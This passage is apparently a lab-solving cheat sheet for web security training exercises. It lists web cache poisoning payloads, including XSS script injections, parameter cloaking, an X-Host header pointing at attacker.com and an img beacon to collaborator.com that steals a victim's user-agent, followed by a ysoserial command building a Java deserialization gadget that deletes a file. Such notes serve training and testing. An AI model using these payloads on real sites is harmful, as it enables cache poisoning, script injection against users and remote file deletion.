 ### 4. Targeted web cache poisoning using an unknown header
>HTML is allowed in comment section. Steal user-agent of victim with ```<img src="http://collaborator.com">``` payload.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### 5. Web cache poisoning via an unkeyed query string
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```

### 6. Web cache poisoning via an unkeyed query parameter
```
/?utm_content=123'/><script>alert(1)</script>
```

### 7. Parameter cloaking
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```

### 8. Web cache poisoning via a fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
```

### 9. URL normalization
```
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
```


# Insecure deserialization
## Approach  
I recommend you to install **Java Deserialization Scanner** extension for BurpSuite to scan for the type of serialized object. Of course, to create gadgets you will need to use [ysoserial](https://github.com/frohoff/ysoserial).  
Quick notes:  
You need to have at least Java JDK 11 version to use the jar file!
```
java -jar ysoserial-all.jar CommonsCollections2 "rm /home/carlos/morale.txt" | gzip -f | base64 -w 0
```
